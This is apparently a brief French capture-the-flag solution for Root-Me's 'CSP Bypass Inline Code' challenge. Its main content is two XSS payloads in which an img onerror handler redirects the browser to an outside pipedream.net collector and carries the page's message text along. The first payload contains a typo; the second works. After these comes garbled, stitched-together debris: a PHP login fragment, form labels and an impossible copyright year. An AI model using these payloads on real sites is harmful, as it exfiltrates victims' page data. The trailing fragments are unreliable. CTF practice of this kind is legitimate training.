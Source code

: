 # [CSP Bypass Inline Code](https://www.root-me.org/fr/Challenges/Web-Client/CSP-Bypass-Inline-code)

Exfiltrez le contenu de la page !


```
<img src="test" onerror="document.location='//eoirx7b097gaos1.m.pipedream.net' documnet.querySelector('.message').textContent">
<img src="test" onerror="document.location='//eoirx7b097gaos1.m.pipedream.net?data='%2Bdocument.querySelector('.message').textContent">

```

Annonces
$message) { echo 'Erreur pour le champ '. ucfirst($field) .' : '. $message .'
'; } } else { $sql = 'SELECT username FROM users WHERE username = ? and password = ?'; $sth = $dbh->prepare($sql); $sth->execute(array($_POST['username'], $_POST['password'])); $present = $sth->fetch(); if($present) { $_SESSION['username'] = $_POST['username']; echo 'Vous êtes désormais identifié ! Redirection en cours...'; echo ''; } else { echo 'Nom d\'utilisateur / mot de passe invalide
'; } } } else { ?>
Converti de retour ?

Login

Mot de passe

- Mot de passe oublié ?
Grand spécialiste
Tous résultats garantis - Copyright 2013-1320 